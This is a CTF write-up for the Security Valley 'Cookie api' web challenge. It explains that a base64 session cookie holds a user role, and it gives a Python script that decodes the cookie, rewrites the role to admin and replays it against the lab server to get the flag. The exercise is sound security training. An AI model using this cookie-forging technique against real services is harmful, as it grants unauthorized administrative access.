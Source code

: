 ```yaml
---
date: 2023-07-31 07:46:58 +02:00
categories: [SecurityValley, Web]
tags: [Web, CTF, SecurityValley]
---
```

This is a writeup of the web challenge Cookie api from the [Security Valley](https://ctf.securityvalley.org) CTF
#### Level: 1, Score: 15
# Premise
This API here has a strange behavior. The endpoint /api/v1/init produces cookies. Ok! The /api/v1/store endpoint likes to eat cookies. LOL. Can you make it like your cookie too?

**Link:** [http://pwnme.org:8888](http://pwnme.org:8888/)
## Challenge links:
[https://pwnme.org/](https://pwnme.org/)
# Observations
If we make an api call to the `init`endpoint, we cant see anything in the response body.
If we instead look at the headers, we can see a session token, which looks like it's encoded in base64 and a very short expiry date (1 second).
![Initialized cookie](/assets/images/cookie_api_req.png)
If we decode the base64 string, we find the following contents:
![Decoded session_token](/assets/images/cookie_api_session_decoded.png)

Passing this token to the `store` endpoint gives us no response.
# Solution
As we saw earlier, our `session_token` has the `user` role. 

If we attempt to elevate our privileges by changing this role to something like `admin` for instance, we can see if it makes a difference.

We need to automate this however, since as we saw earlier, all this needs to be done in a second.

To do this, we can write a simple python script containing the following:

```python
import requests
import base64

make_cookie = requests.get("http://pwnme.org:8888/api/v1/init")
cookie_response = make_cookie.headers

session_token_contents = make_cookie.headers["Set-Cookie"].split(';')

session_token_only = session_token_contents[0].split('=')

base64_decoded_string = base64.b64decode(session_token_only[1]).decode("utf-8")

decoded_split_cookies = base64_decoded_string.split('&')

id_cookie = decoded_split_cookies[1].split('=')

to_encode = "role=admin&id="+id_cookie[1]

dastringie = to_encode.encode('ascii')

cookie_to_send = base64.b64encode(dastringie).decode("utf-8")

cookie_dict = {"session_token": cookie_to_send}

send_cookie = requests.get(url="http://pwnme.org:8888/api/v1/store", cookies=cookie_dict)
print(send_cookie.text)
```
Running this script gives us the following output:

![Script Result](/assets/images/cookie_api_flag.png)

Giving us our flag.

# Tools used:
 - python3
 - CyberChef
